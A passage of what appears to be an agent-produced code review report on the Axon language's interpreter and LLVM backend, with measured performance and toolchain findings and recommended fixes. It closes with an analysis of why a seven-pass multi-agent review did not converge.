*crates/axon-core/src/interp.rs:1993* · kind: `allocation-in-hot-path` · confidence: high

Measured with an LD_PRELOAD malloc counter over differential programs (100k iterations each, deltas against a 2-assign baseline loop measured at 2.05 malloc/iter):
  fn f() -> i64 { 1 }                 6.05 malloc/iter -> 4.0 per call
  fn f(x: i64) -> i64 { 1 }           9.05 malloc/iter -> 7.0 per call
  fn f(x: i64, y: i64) -> i64 { 1 }  10.05 malloc/iter -> 8.0 per call
  fn f(x: str) -> i64 { 1 }           9.05 malloc/iter -> 7.0 per call

The four unconditional ones in `call_fn` (crates/axon-core/src/interp.rs:1993):
  * interp.rs:2016 `self.current_fn.replace(f.name.clone())` — String clone of the callee name on every call, for provenance attribution that most programs never read.
  * interp.rs:2073 `let mut env = Env::new()` — `vec![HashMap::new()]`, a Vec allocation per activation.
  * interp.rs:2206 `env.define("goal_met".into(), Value::Int(goal_met))` — allocates the String "goal_met" and forces the scope HashMap's table allocation, on EVERY call. `grep -rl goal_met examples/` matches 4 of 170 .ax files. ~98% of calls pay two allocations for a binding nothing reads.
  * interp.rs:2058-2065 `input_args: Vec<i64>` and `input_args_f64: Vec<f64>` are collected on every call to feed the goal optimizer's provenance store, whether or not a goal search is running. That's the third allocation the 0->1-i64-param delta exposes.
Plus `p.name.clone()` per parameter (interp.rs:2098) — the 1->2-param delta.

Timing corroborates: isolating `a = id(i)` against an otherwise identical loop gives ~249ns of extra cost per iteration, i.e. ~225ns per call to `fn id(x: i64) -> i64 { x }`. CPython 3.12, measured in-process on this same host, does fib's call at 18.2 ns/call — the Axon interpreter is ~12x slower per call than CPython.

Also in the per-call path: two linear scans of `f.attrs` (interp.rs:2024 for "agent", interp.rs:2050 for "corrigible") and a third later (interp.rs:2280 for "adaptive"), plus `goal_spec_of(f)` at interp.rs:2141.

**Recommendation:** Hoist the per-FnDef facts into a precomputed side table keyed by fn pointer/index, built once at Interp construction: `is_agent`, `is_corrigible`, `is_adaptive`, `goal_spec`, `has_refined_params`, `interned_name`. Make `current_fn` hold an `Rc<str>` or an index instead of a fresh String. Gate the `goal_met` define and the two `input_args` collections on `self.has_any_goal_fn` (or on the fn actually being a goal metric). Intern parameter names once so `env.define` takes an `Rc<str>`. These are mechanical and should remove 5 of the 7 allocations.

#### [MEDIUM] `Env::assign` allocates a String on every assignment; variable lookup re-hashes the name once per scope level
*crates/axon-core/src/interp.rs:288* · kind: `allocation-in-hot-path` · confidence: high

crates/axon-core/src/interp.rs:288-297:

    fn assign(&mut self, name: &str, val: Value) -> bool {
        for scope in self.scopes.iter_mut().rev() {
            if scope.contains_key(name) {
                scope.insert(name.to_string(), val);

The `contains_key` already located the entry; the `insert` then allocates a fresh String key to overwrite an identical one. Measured exactly: a loop body of `i = i + 1` costs 1.00 malloc per iteration (100k iters = 104811 mallocs, 200k = 204811, delta exactly 100000). A 20M-iteration counting loop performs 20M pointless String allocations.

`Env::get` (interp.rs:286) is `self.scopes.iter().rev().find_map(|s| s.get(name))` — a fresh SipHash of the name string at each scope level until a hit. `run_loop_body` (interp/eval.rs:645-646) pushes a scope per iteration, so every variable read inside a loop body hashes against an empty innermost map before reaching the real binding. Baseline cost: a while loop of `i = i + 1` is 106.5 ns/iter for ~4 AST nodes; an isolated extra binop node measures 23.7 ns. A tuned Rust tree-walker should be in the 3-8 ns/node range.

**Recommendation:** Fix `assign` to `if let Some(slot) = scope.get_mut(name) { *slot = val; return true; }` — one lookup, zero allocations, a two-line change. Longer term, resolve identifiers to (depth, slot) indices at resolve time and back scopes with `Vec<Value>` so lookup is an array index instead of a hash chain; `resolver.rs` already builds the symbol table this would need.

#### [MEDIUM] No LLVM IR optimization pipeline is ever run — `--release` only raises the TargetMachine opt level, worth 1.25x
*crates/axon-core/src/codegen/link.rs:419* · kind: `codegen-quality` · confidence: high

`grep -rn "PassBuilderOptions|run_passes|create_module_pass_manager|initialize_function_pass" crates/axon-core/src/` returns nothing. The only optimization knob is `OptimizationLevel::Default` vs `::None` passed to `create_target_machine` (link.rs:179, 219, 259, 419, 461). That governs instruction selection and register allocation, not the IR middle-end — no mem2reg, no inlining, no GVN, no LICM.

Confirmed by dumping IR with `axon build --emit-llvm --release`, which still shows textbook unoptimized output:

    define i64 @fib(i64 %0) {
    entry:
      %n = alloca i64, align 8
      store i64 %0, ptr %n, align 4
      %n1 = load i64, ptr %n, align 4
      ...
    if_else:
      %n3 = load i64, ptr %n, align 4

The parameter is spilled to a stack slot and reloaded at each of its four uses.

Measured payoff of `--release` today: loop 29.09ms -> 23.33ms, fib 3.74ms -> 2.89ms (~1.25x). Against C on the same machine (startup ~0.6ms included in all figures):
    loop:  axon --release 23.33ms | cc -O2 10.78ms  -> 2.2x slower
    fib:   axon --release  2.89ms | cc -O2  1.19ms  -> 2.4x slower (~3.9x after subtracting startup)

So the backend is respectable but is leaving a straightforward 2-3x on the floor. Minor related wart visible in the same dump: `store`/`load i64 ... align 4` against an `alloca i64, align 8` — the accesses under-declare alignment, which is safe but pessimizes LLVM.

**Recommendation:** Run `Module::run_passes("default<O2>", &target_machine, PassBuilderOptions::create())` (inkwell exposes the new PM) before `write_to_file` when `--release` is set. Verify with the existing golden-IR tests, which will need release-mode variants. Also fix the align-4 attributes on i64 accesses.

#### [MEDIUM] `axon build` silently drops the runtime library when run outside the compiler's own cargo workspace, producing a cryptic ld error
*crates/axon-core/src/codegen/link.rs:658* · kind: `toolchain-robustness` · confidence: high

Reproduced. From the repo root:

    $ ./target/release/axon build noop.ax -o /tmp/noop
    Binary: /tmp/noop (858ms)

From any other directory:

    $ cd /home/cklaus && /home/cklaus/projects/axon/target/release/axon build .../noop.ax -o /tmp/noop_outside
    /usr/bin/ld: noop.o: in function `main':
    noop:(.text+0x2b72): undefined reference to `__axon_install_recursion_guard'
    /usr/bin/ld: noop:(.text+0x2b86): undefined reference to `__axon_set_provenance_source'
    collect2: error: ld returned 1 exit status
    error: linker (/usr/bin/cc) exited with exit status: 1

Both symbols exist in the archive (`nm -g target/debug/libaxon_rt.a` shows `T __axon_install_recursion_guard` and `T __axon_set_provenance_source`); the archive is simply never passed to the linker. Cause chain in codegen/link.rs:658-712: `build_crate_staticlib` reads `std::env::var("CARGO_MANIFEST_DIR")` at RUNTIME. For a shipped binary that variable is unset, so `manifest` falls back to the literal `"Cargo.toml"` resolved against the caller's cwd; `cargo build -p axon-rt --manifest-path Cargo.toml` fails; stdout and stderr are both `Stdio::null()` so nothing is reported; `if !status.success() { return None }`; and `build_axon_rt`'s doc comment codifies the behavior: "Silently returns None if cargo is not found or the build fails, so that the linker step still attempts to proceed."

So the shipped compiler only links correctly when its cwd happens to be its own source workspace — and when it doesn't, the user gets a raw ld message about internal symbols they have never heard of. It also means `axon build` shells out to cargo on every invocation, which is where most of the ~850ms build time goes.

**Recommendation:** Bake the workspace root in at compile time with `env!("CARGO_MANIFEST_DIR")` rather than `std::env::var`, or better, locate a pre-built `libaxon_rt.a` next to the executable and only fall back to cargo in a dev checkout. Whichever way, turn the silent `None` into a hard diagnostic ("could not build/find libaxon_rt.a") instead of letting the link proceed without the runtime.

#### [MEDIUM] Reading one field of a struct allocates ~6 times — Value::Struct clones its HashMap and every key String
*crates/axon-core/src/interp.rs:58* · kind: `allocation-in-hot-path` · confidence: high

`Value::Struct { name: String, fields: HashMap<String, Value> }` (interp.rs:58-61). Field access evaluates the receiver, which for an Ident is a full `.clone()` — cloning the map's table plus every key String, to read one field.

Measured (100k iterations, malloc counter):
  `s = s + p` where p is an i64        2.05 malloc/iter (the 2 assigns)
  `s = s + p.a` where P has 4 fields   8.05 malloc/iter
-> 6 allocations per single field read: 1 map table + 4 key Strings + the struct's `name` String. Cost scales with the struct's field count, not with what you read. Timing: 25.1ms vs 33.6ms over 100k reads.

This compounds badly with the array finding: a struct holding an array field deep-copies the array on every field read of anything in that struct.

**Recommendation:** Same fix family as the array case: make field access on an Ident receiver borrow from the env and clone only the selected field. Structurally, replace `HashMap<String, Value>` with a `Vec<Value>` plus a shared `Rc<[Rc<str>]>` field-name table resolved once per struct type — that removes the per-access key cloning entirely and makes field access an index.

#### [LOW] Every native binary is 45 MB and statically links tokio/rustls/reqwest even for `fn main() -> i64 { 0 }`
*crates/axon-core/src/codegen/link.rs:332* · kind: `binary-size` · confidence: high

`axon build --release` on `fn main() -> i64 { 0 }` produces a 45,673,728-byte executable. `size` reports 11,139,375 bytes of .text. `nm -C` finds 5,527 symbols matching tokio and 12,720 matching rustls/reqwest/hyper. libaxon_ai.a (106 MB as a debug archive) is linked unconditionally into every output regardless of whether the program contains a single AI builtin — the whole async HTTP/TLS stack ships in a hello-world.

This is a distribution-credibility problem for a language pitching itself as a systems language and targeting embedded/freestanding profiles (R17/R25).

**Recommendation:** Link libaxon_ai.a only when the program actually references an `ai_*` builtin (the checker already knows the builtin set the program uses), and add `-Wl,--gc-sections` with `-ffunction-sections` on the runtime archives. A no-AI hello world should be well under 1 MB.

#### [LOW] The documented dev build is 8-10x slower than release, and the whole test/gate/benchmark surface runs on it
*scripts/perf_bench.sh:33* · kind: `developer-workflow` · confidence: high

CLAUDE.md's documented build command is `cargo build -p axon-core --no-default-features --bin axon`, and scripts/perf_bench.sh hardcodes `AXON="$ROOT/target/debug/axon"`. Measured penalty of debug vs release for the interpreter:
  fib(30):    8587 ms  vs   848 ms  (10.1x)
  20M loop:  32008 ms  vs  4166 ms  ( 7.7x)
  noop:       11.73 ms vs  5.44 ms  ( 2.2x startup)
A release build of axon-core takes 35 s on this host. Every parity script, every example sweep, and the perf benchmark itself pay the 8-10x tax on every run.

A related trap I hit: `target/debug/axon` is a cargo hardlink whose feature set depends on whichever variant was built last. After `cargo build --no-default-features`, `axon build` fails with "requires building axon with the codegen feature" — and scripts/perf_bench.sh's response to that is `exit 0` ("skipping"), i.e. the perf benchmark silently passes when the binary happens to lack codegen. Same class as the qemu_boot_test.sh stale-skip already on record.

**Recommendation:** Add `[profile.dev.package.axon-core] opt-level = 2` (or a `bench` profile) so interpreter-heavy scripts aren't paying 10x, and have long-running parity scripts prefer `target/release/axon` when present. Make perf_bench.sh's codegen-unavailable path exit non-zero, or at minimum print a loud SKIPPED that a gate can detect.

---

## Meta loop — cycle-1 convergence check

**Result: NOT CONVERGED.** The exit condition ("a full pass surfaces zero new
critical, high, or medium issues") was not met by any pass, including the last.

| | P1 | P2 | P3 | P4 | P5 | P6 | P7 |
|---|---|---|---|---|---|---|---|
| Agents | 36 | 36 | 36 | 6 | 4 | 3 | 3 |
| Critical | 2 | 2 | 25 | 6 | 3 | 5 | 6 |
| C+H+M | 65 | 70 | 153 | 66 | 30 | 26 | 28 |
| **C per agent** | 0.06 | 0.06 | 0.69 | 1.0 | 0.75 | 1.7 | **2.0** |

The last column is the one that matters for a convergence decision. Criticals per
agent *rose monotonically* across the code passes and peaked on the final one. Raw
totals fall after P3 only because the passes got smaller (36 agents → 3); normalised
for effort, the search was still accelerating when it stopped. **This cycle found no
saturation point.**

### Why it didn't converge — three structural reasons

1. **Each new lens opened new ground rather than re-covering old.** P7 was primed with
   every confirmed finding from P4–P6 and told not to re-report them; it still produced
   6 criticals, all in areas no earlier pass had reached (attestation signature
   verification, guest policy defaults, handle unforgeability, approval-to-artifact
   binding). Lens count, not depth, was the binding constraint.

2. **The adversarial pass found errors introduced by the previous pass's fold-ins.**
   P2 surfaced more highs than P1 (23 vs 16), including false claims that P1's own
   edits had added to the specs. Folding review output into specs is itself a source of
   defects, so "fold then re-review" cannot be assumed to be monotone improvement.

3. **The dominant finding class is not a bug list, it is a verification gap.** Across
   P6 and P7 the recurring shape is a guard that has the right form and no content: a
   parity aggregator that passes on zero passes, a safety gate that reports "safe" with
   6 of 8 stages skipped, 20 acceptance gates that grep for identifiers, a signature
   field checked only for emptiness, a policy default of `0xFF`. Reviewing harder does
   not close this class — only making the gates non-vacuous does.

### What a cycle 2 should and should not be

A mechanical repeat is not the right next move. 49 unresolved criticals sit in the
review file with zero code edits (per the standing instruction), and the finding rate
says more review will keep producing findings indefinitely. The bottleneck has moved
from *discovery* to *disposition*.

Recommended before any cycle 2:

- **Triage the 49 criticals into fix / accept-with-documented-limit / dispute.** Several
  are honest scope boundaries mislabelled as guarantees; those are doc fixes, not code
  fixes. Others (fail-open policy parser, unverified attestation, sandbox escape via
  string-named dispatch) are unsound today.
- **Fix the vacuous-gate class first.** It is the reason the other 48 could ship green,
  and it is the only class where one fix retroactively raises confidence in everything
  else.
- **Then re-run P6/P7 only.** They are the two highest-yield lenses per agent and the
  two whose findings a gate fix would actually move.

Cycle 2 as a full 7-pass repeat would cost roughly what cycle 1 did (~10 workflow runs,
~150 agents) and, on this evidence, would return another few hundred findings against a
codebase that has not changed. That is not convergence; it is measurement without
correction.
